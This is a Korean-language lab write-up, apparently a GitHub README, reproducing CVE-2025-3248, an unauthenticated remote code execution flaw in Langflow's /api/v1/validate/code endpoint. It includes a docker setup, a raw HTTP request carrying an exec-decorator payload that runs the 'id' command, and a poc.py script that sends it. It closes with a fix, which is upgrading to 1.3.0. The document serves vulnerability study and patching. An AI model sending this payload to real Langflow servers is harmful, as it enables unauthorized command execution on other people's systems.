



# CVE-2025-3248 Langflow API 원격 코드 실행 취약점

### 1. 취약점 요약 
AI 애플리케이션 구축 프레임워크 Langflow 1.3.0 미만 버전에서 /api/v1/validate/code 엔드포인트의 사용자 인증 미흡으로 원격 코드가 실행되는 취약점이다.

### 2. 환경 구성 
다음 명령어를 실행하면 취약한 환경구성과 poc.py까지 자동으로 실행된다.
```
docker compose up -d
```

### 3. 취약점 설명
이 취약점은 Langflow 1.3.0 이전 버전에서 발생한다.

`/api/v1/validate/code`로 전달된 코드는 `post_validate_code()`에서 별도의 입력값 검증 없이 `validate_code()` 함수로 전달된다.

`validate_code()`함수는 입력값을 ast로 구조화하고 컴파일하여 `exec()`함수를 실행한다.
즉, 인증 없는 사용자가 보낸 입력값이 검증없이 실행됨을 확인할 수 있다.

Langflow 1.3.0 버전부터는 `post_validate_code()`에 `CurrentActiveUser` 검증이 추가되어 유효한 사용자인지 확인하도록 패치되었다.

### 4. 재현 절차 
`http://your-id:7860/api/v1/validate/code`에 POST 방식으로 다음과 같은 악의적인 요청을 보낸다.
```
POST /api/v1/validate/code HTTP/1.1
Host: localhost:7860
sec-ch-ua-platform: "macOS"
Accept-Language: ko-KR,ko;q=0.9
Accept: application/json, text/plain, */*
sec-ch-ua: "Not-A.Brand";v="24", "Chromium";v="146"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Content-type:application/json
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Length: 111

{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"}

```

### 5. PoC 코드
poc.py는 POST 요청으로 `/api/v1/validate/code` 엔드포인트에 악의적인 요청을 보낸다.
```
import os
import requests

target_url = os.getenv("TARGET_URL", "http://web:7860").rstrip("/")
url = f"{target_url}/api/v1/validate/code"

data = {
    "code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"
}

print(f"[*] Sending PoC request to {url}")

response = requests.post(url, json=data, timeout=15)

print(f"[*] HTTP {response.status_code}")

try:
    print(response.json())
except requests.exceptions.JSONDecodeError:
    print(response.text)

```

### 6. 실행결과


### 7. 대응방안
Langflow 1.3.0 이상 버전으로 업데이트 한다.

### 8. 참고자료
- https://github.com/fDarkShadow/noctis/issues/186
- https://github.com/langflow-ai/langflow/blob/1.3.0
- https://github.com/langflow-ai/langflow/blob/1.2.0
